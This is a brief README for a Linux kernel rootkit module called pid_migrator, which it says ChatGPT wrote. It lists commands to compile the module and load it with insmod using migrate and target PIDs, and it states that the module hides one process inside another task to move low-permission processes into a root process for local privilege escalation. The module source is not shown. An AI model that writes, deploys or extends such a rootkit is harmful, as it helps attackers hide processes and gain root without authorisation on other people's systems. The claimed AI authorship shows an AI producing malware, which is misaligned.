 # Linux-Module-Process-Mogrator-Rootkit
Written by ChatGPT receiving target PID and Migrate PID in command line


sudo apt-get install linux-headers-$(uname -r)

gcc -o pid_migrator.o -c pid_migrator.c -I /lib/modules/$(uname -r)/build/include

make -C /lib/modules/$(uname -r)/build M=$(pwd) modules

sudo insmod pid_migrator.ko migrate_pid=<MIGRATE_PID> target_pid=<TARGET_PID>


EDIT <Migrate PID> for the pid you are moving and <Target PID> for the task process you are hiding it in.

This is a Linux Kernel Rootkit so be careful
TO BE USED TO MIGRATE LOW PERMISSION PROCESSES TO ROOT PROCESS FOR LOCAL PRIVILEGE ESCALATION

